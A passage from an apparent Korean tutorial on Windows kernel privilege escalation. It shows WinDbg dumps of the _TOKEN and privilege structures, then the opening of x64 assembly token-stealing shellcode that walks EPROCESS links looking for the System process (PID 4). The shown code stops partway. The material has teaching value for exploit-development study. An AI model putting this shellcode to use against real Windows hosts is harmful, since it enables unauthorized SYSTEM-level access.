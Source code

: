 정확히 일치하는 것을 알 수 있습니다.



### [-] Token

바로 확인해보겠습니다. `_TOKEN` 구조체에서 `TokenSource` 멤버와 `Privileges` 멤버의 값을 출력합니다.

```
0: kd> dt_TOKEN ffffe283a8407390
nt!_TOKEN
   +0x000 TokenSource      : _TOKEN_SOURCE
   +0x010 TokenId          : _LUID
   +0x018 AuthenticationId : _LUID
   +0x020 ParentTokenId    : _LUID
   +0x028 ExpirationTime   : _LARGE_INTEGER 0x06207526`b64ceb90
   +0x030 TokenLock        : 0xffffb80f`ff2a27d0 _ERESOURCE
   +0x038 ModifiedId       : _LUID
   +0x040 Privileges       : _SEP_TOKEN_PRIVILEGES
...
   +0x490 VariablePart     : 0xffffe283`a8407870
   
0: kd> dx -id 0,0,ffffb80fff271380 -r1 (*((ntkrnlmp!_SEP_TOKEN_PRIVILEGES *)0xffffe283a84073d0))
(*((ntkrnlmp!_SEP_TOKEN_PRIVILEGES *)0xffffe283a84073d0))                 [Type: _SEP_TOKEN_PRIVILEGES]
    [+0x000] Present          : 0x1ff2ffffbc [Type: unsigned __int64]
    [+0x008] Enabled          : 0x1e60b1e890 [Type: unsigned __int64]
    [+0x010] EnabledByDefault : 0x1e60b1e890 [Type: unsigned __int64]
    
0: kd> dx -id 0,0,ffffb80fff271380 -r1 (*((ntkrnlmp!_TOKEN_SOURCE *)0xffffe283a8407390))
(*((ntkrnlmp!_TOKEN_SOURCE *)0xffffe283a8407390))                 [Type: _TOKEN_SOURCE]
    [+0x000] SourceName       : "*SYSTEM*" [Type: char [8]]
    [+0x008] SourceIdentifier [Type: _LUID]

```

여기서 `Privileges` 멤버의 `Present` 값은 기억해두는 것이 좋습니다. 권한 상승 시 특권 레벨을 이용하는 경우가 많기 때문입니다. 

여기까지 토큰을 얻는 과정을 진행하였습니다. 다음은 위의 내용을 코드로 만들고 토큰을 탈취하여 시스템 권한을 획득할 것입니다.



## [0x02] Exploit

위의 내용들을 구현하기 위해 아래와 같은 코드를 작성하였습니다.

```
.code
	Backup_Register proc
		PUSH RCX
		PUSH RDX
		PUSH R8
		PUSH R9
		PUSH RDI
	Backup_Register endp

	GetStruct proc
		MOV RCX, gs:[188h]	; Get KTHREAD Pointer
		MOV RDX, [RCX+0B8h]	; Get EPROCESS Pointer(ApcState+20)
		MOV R8, [RDX+2F0h]  ; Get ActiveProcessLinks
		MOV RDI, [RDX+3E8h] ; Get InheritedFromUniqueProcessId 
		MOV RCX, [R8]
	GetStruct endp

	FindProcess proc
		MOV RDX, [RCX-8]    ; Get UniqueProcessId
		CMP RDX, 4          ; Compare "System" Process id
		JZ GetToken
```
